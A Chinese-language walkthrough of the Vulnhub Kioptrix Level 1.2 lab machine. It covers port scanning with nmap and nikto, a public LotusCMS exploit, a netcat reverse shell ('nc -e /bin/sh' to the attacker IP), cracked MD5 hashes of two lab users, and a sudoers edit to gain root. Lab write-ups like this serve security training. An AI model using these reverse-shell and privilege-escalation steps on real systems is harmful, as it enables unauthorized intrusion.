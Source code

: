 ```yaml
---
title: Vulnhub 24 KIOPTRIX-LEVEL 1.2
date: 2011-04-18
---
```


考点： lotuscms,phpmyadmin,ssh,sudo

靶机链接：<https://www.vulnhub.com/entry/kioptrix-level-12-3,24/>
<!--more-->

## 环境配置

| 名称         | IP        |
| ------------ | --------- |
| Kali Linux   | 192.168.88.128 |
| KIOPTRIX: LEVEL 1.2 (#3) | 192.168.88.138 |

vmware导入后网络获取失败，修改`KioptrixVM3.vmx`，删除带`ethernet0`的行内容，虚拟机设置添加网络适配器，配置nat网络，启动该虚拟机。

![](https://www.vulnhub.cn/walkthrough/24/1.webp)

## 初步打点

### 端口扫描

```bash
$ export rip=192.168.142.138
$ sudo nmap -v -A $rip
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-title: Ligoat Security - Got Goat? Security ...
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-favicon: Unknown favicon MD5: 99EFC00391F142252888403BB1C196D2
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
```

### WEB测试

![](https://www.vulnhub.cn/walkthrough/24/2.webp)

![](https://www.vulnhub.cn/walkthrough/24/3.webp)

![](https://www.vulnhub.cn/walkthrough/24/4.webp)

修改`/etc/hosts`

![](https://www.vulnhub.cn/walkthrough/24/5.webp)

#### nikto

```bash
$ nikto -h http://kioptrix3.com/
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.88.138
+ Target Hostname:    kioptrix3.com
+ Target Port:        80
---------------------------------------------------------------------------
+ Server: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
+ Retrieved x-powered-by header: PHP/5.2.4-2ubuntu5.6
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Cookie PHPSESSID created without the httponly flag
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /favicon.ico, inode: 631780, size: 23126, mtime: Fri Jun  5 15:22:00 2009
+ Apache/2.2.8 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ PHP/5.2.4-2ubuntu5.6 appears to be outdated (current is at least 7.2.12). PHP 5.6.33, 7.0.27, 7.1.13, 7.2.1 may also current release for each branch.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F36-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3092: /phpmyadmin/changelog.php: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /phpmyadmin/: phpMyAdmin directory found
+ OSVDB-3092: /phpmyadmin/Documentation.html: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
```

![](https://www.vulnhub.cn/walkthrough/24/6.webp)

## 获得权限

### LotusCMS

Github上找个exp <https://github.com/vj0shii/LotusCMS-3.0-eval-Exploit-Shell>

```bash
$ git clone https://github.com/vj0shii/LotusCMS-3.0-eval-Exploit-Shell
$ cd LotusCMS-3.0-eval-Exploit-Shell
```

![](https://www.vulnhub.cn/walkthrough/24/7.webp)

![](https://www.vulnhub.cn/walkthrough/24/8.webp)

使用`nc -e /bin/sh 192.168.88.128 444` 反弹shell

成功接收shell

![](https://www.vulnhub.cn/walkthrough/24/9.webp)

### phpmyadmin

![](https://www.vulnhub.cn/walkthrough/24/10.webp)

找到可疑hash

![](https://www.vulnhub.cn/walkthrough/24/11.webp)

### Crack

使用<https://www.cmd5.com/>

| username   | password                         | carck    |
| ---------- | -------------------------------- | -------- |
| dreg       | 0d3eccfb887aabd50f243b3f155c0f85 | Mast3r   |
| loneferret | 5badcaf789d3d1d09794d8f021f40f0e | starwars |

![](https://www.vulnhub.cn/walkthrough/24/12.webp)

![](https://www.vulnhub.cn/walkthrough/24/13.webp)

## 提权

发现`sudo`免密执行

执行`sudo ht`报错，参考<https://stackoverflow.com/questions/6788402/error-opening-terminal-xterm-256color>顺利执行

![](https://www.vulnhub.cn/walkthrough/24/14.webp)

发现`ht`就是个编辑器，接下来修改`sudoers`文件

![](https://www.vulnhub.cn/walkthrough/24/15.webp)

![](https://www.vulnhub.cn/walkthrough/24/16.webp)

顺利提权

![](https://www.vulnhub.cn/walkthrough/24/17.webp)
